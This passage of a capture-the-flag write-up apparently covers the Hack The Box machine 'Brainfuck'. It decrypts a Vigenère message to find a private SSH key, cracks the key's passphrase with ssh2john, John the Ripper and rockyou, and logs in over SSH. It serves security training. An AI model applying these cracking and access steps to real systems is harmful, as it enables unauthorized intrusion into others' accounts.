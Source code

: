```
Qbqquzs - Pnhekxs dpi fca fhf zdmgzt
```

We can see that is pretty similar syntax with letter substitution. A different key is used for each message encryption, so it is a stream cipher. The key used to encrypt seems to be as long as the plaintext (OTP).

We can use the website `rumen.com` using OTP module to try to find the key:

* Go to http://rumkin.com/tools/cipher/otp.php
* Put an encrypted signature on "Your message"
* Put the plaintext signature on "The pad"
* Decrypt
* `Brainfu - Ckmybra inf uck myb rainfu`

=> The key used to encrypted seems to be `fuckmybrain` successively.

Since this kind of key let me think to vigenere cipher, lets try to decode encrypted message with the rotate key `fuckmybrain` using http://rumkin.com/tools/cipher/vigenere-keyed.php.

```
There you go you stupid fuck, I hope you remember your key password because I dont :)
https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
```

```
No problem, I'll brute force it ;)
```

=> SSH key get !

</br>

## Step #5

To bruteforce the SSH key passphrase of orestis we will use JohnTheRipper. However, we need first to convert the SSH encrypted key to a john format using `ssh2john` script:

```sh
$ ssh2john id_rsa_orestis > id_rsa_johnformat
```

And then run `john` using the wordlist `rockyou.txt` :

```sh
$ john id_rsa_john --wordlist=~/Documents/HACKING/Wordlist/rockyou.txt
Loaded 1 password hash (SSH-ng [RSA/DSA 32/64])
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 14.94% (ETA: 11:11:55) 0g/s 977799p/s 977799c/s 977799C/s 14122516
3poulakia!       (/Users/Panda/Documents/HACKING/playground/htb/Brainfuck/id_rsa_orestis)
1g 0:00:00:13 90.07% (ETA: 11:11:56) 0.07451g/s 968409p/s 968409c/s 968409C/s 1nerual
1g 0:00:00:14 DONE (2018-06-15 11:11) 0.06720g/s 964004p/s 964004c/s 964004C/s *7¡Vamos!
Session completed
# So the passphrase is '3poulakia!'

$ ssh -i ./id_rsa_orestis orestis@10.10.10.17
```
